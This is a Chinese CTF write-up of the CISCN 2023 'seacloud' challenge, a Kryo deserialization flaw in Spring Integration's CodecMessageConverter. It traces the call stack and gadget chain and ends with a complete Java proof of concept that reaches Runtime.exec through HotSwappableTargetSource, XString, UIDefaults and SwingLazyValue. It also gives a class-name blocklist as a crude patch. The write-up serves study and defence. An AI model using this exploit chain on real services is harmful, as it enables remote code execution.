




# CISCN 2023 西南赛区半决赛 seacloud

题目附件👉[下载](../backup/seacloud.zip)

好像是当时场上攻击0解题，但挺多人得到了防御分

这两天又做了一遍，发现这题考察的知识点还挺多的

（第一次参加线下赛没能上网真的难绷😭，被队里另一个web✌和pwn✌带飞了）

前置知识（题目就给了这两个提示）：

* [Hessian原生JDK利用](../Deserial/hessian_only_jdk.md)
* [Kryo反序列化](../Deserial/Kryo.md)

## Analysis

只有一个控制器`MessageController`，对传入的message进行base64解码



这个`org.springframework.integration.codec.CodecMessageConverter`是什么？

根据官方文档的说法

> A MessageConverter that delegates to a Codec to convert.

这里实例化`CodecMessageConverter`就传入了`org.springframework.integration.codec.kryo.MessageCodec`

`Codec`又是什么呢

> Interface for classes that perform both encode (serialize) and decode (deserialize) on multiple classes.

大概就是跟序列化和反序列化有关的，而且这个又是kryo包下，题目也提示了Kryo反序列化

跟进`CodecMessageConverter#toMessage`



这里指定了解码的类型`this.messageClass`（`GenericMessage`），最后`MessageCodec#decode`也返回了一个`Message`对象，所以后面构造的时候要用`GenericMessage`将payload封装起来

```java
public class GenericMessage<T> implements Message<T>, Serializable {
	// Create a new message with the given payload.
	public GenericMessage(T payload) {
		this(payload, new MessageHeaders(null));
	}
    @Override
	public T getPayload() {
		return this.payload;
	}
}
```

又注意到控制器最后调用`message.getPayload`返回了`User`对象。下面代码可证实

```java
User user = new User();
user.setName("seaclouds");
user.setAge("10");
GenericMessage message = new GenericMessage(user); // 实例化GenericMessage传入payload
MessageCodec messageCodec = new MessageCodec();
byte[] bytes = messageCodec.encode(message);

CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
Message<?> messagecode = codecMessageConverter.toMessage(bytes, (MessageHeaders) null);
System.out.println(messagecode.getPayload());
// 输出User{name='seaclouds', age='10'}
```

回到`toMessage`，继续跟进`decode`



将字节数组封装到Kryo自定义的输入流`com.esotericsoftware.kryo.io.Input`

一路跟进就到了熟悉的`Kryo#readObject`

调用栈👇

```
readClassAndObject:801, Kryo (com.esotericsoftware.kryo)
read:153, MapSerializer (com.esotericsoftware.kryo.serializers)
read:39, MapSerializer (com.esotericsoftware.kryo.serializers)
readObject:709, Kryo (com.esotericsoftware.kryo)
read:49, MessageHeadersSerializer (org.springframework.integration.codec.kryo)
read:34, MessageHeadersSerializer (org.springframework.integration.codec.kryo)
readObject:731, Kryo (com.esotericsoftware.kryo)
read:125, ObjectField (com.esotericsoftware.kryo.serializers)
read:543, FieldSerializer (com.esotericsoftware.kryo.serializers)
readObject:709, Kryo (com.esotericsoftware.kryo)
doDecode:97, PojoCodec (org.springframework.integration.codec.kryo)
lambda$decode$2:86, AbstractKryoCodec (org.springframework.integration.codec.kryo)
execute:-1, 1625066712 (org.springframework.integration.codec.kryo.AbstractKryoCodec$$Lambda$500)
run:58, KryoPoolQueueImpl (com.esotericsoftware.kryo.pool)
decode:86, AbstractKryoCodec (org.springframework.integration.codec.kryo)
decode:72, AbstractKryoCodec (org.springframework.integration.codec.kryo)
toMessage:62, CodecMessageConverter (org.springframework.integration.codec)
```

网上Kryo相关的攻击都是在Dubbo下利用的

```
com.esotericsoftware.kryo#readClassAndObject ->
	com.esotericsoftware.kryo.serializers#read ->
		java.util.HashMap#put ->
			org.springframework.aop.target.HotSwappableTargetSource#equals ->
				com.sun.org.apache.xpath.internal.objects.XString ->
					com.alibaba.fastjson.JSON#toString -> fastjson gadget 
							-> TemplatesImpl to load evil class
```

fastjson是Dubbo自带的，本题没有这个依赖

也就是要找后半段链子来接上`toString`

根据题目提示用Hessian原生JDK去打（Hessian在那条链只充当`source`触发toString）

```
javax.activation.MimeTypeParameterList#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
				SwingLazyValue#createValue
					sun.reflect.misc.MethodUtil#invoke
```

缝一下就能打了

## Patch and POC

如何修复呢？

最粗暴的方式就是把几个关键类禁了，但由于这里是byte数组转字符串，可能存在一些类名卡一半



```java
String test = new String(decodemsg);
if(test.contains("com.esotericsoftware.kryo") || test.contains("org.springframework") || test.contains("javax.activation.MimeTypeParameter")){
    return "illegal deserialization";
}
```

这个方法是比赛的时候想到的，但我不会用Maven指定本地jar包位置。。。打包不了patch

要能上网一下子的事情🤬🤮，下次比赛记得弄个本地Maven镜像

也可以上RASP通防，不过我太菜了不会用🤧

完整POC：

```java
import com.sun.org.apache.xpath.internal.objects.XString;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.integration.codec.CodecMessageConverter;
import org.springframework.integration.codec.kryo.MessageCodec;
import org.springframework.messaging.Message;
import org.springframework.messaging.MessageHeaders;
import org.springframework.messaging.support.GenericMessage;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
        uiDefaults.put("p4d0rn", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        XString x = new XString("test");
        HashMap<Object, Object> hashMap = new HashMap<>();
        Object v1 = new HotSwappableTargetSource(mimeTypeParameterList);
        Object v2 = new HotSwappableTargetSource(x);

        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(hashMap, "table", tbl);

        GenericMessage message = new GenericMessage(hashMap);
        MessageCodec messageCodec = new MessageCodec();
        byte[] bytes = messageCodec.encode(message);
        //System.out.println(new String(Base64.getEncoder().encode(bytes)));

        CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
        Message<?> messagecode = codecMessageConverter.toMessage(bytes, (MessageHeaders) null);
        messagecode.getPayload();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```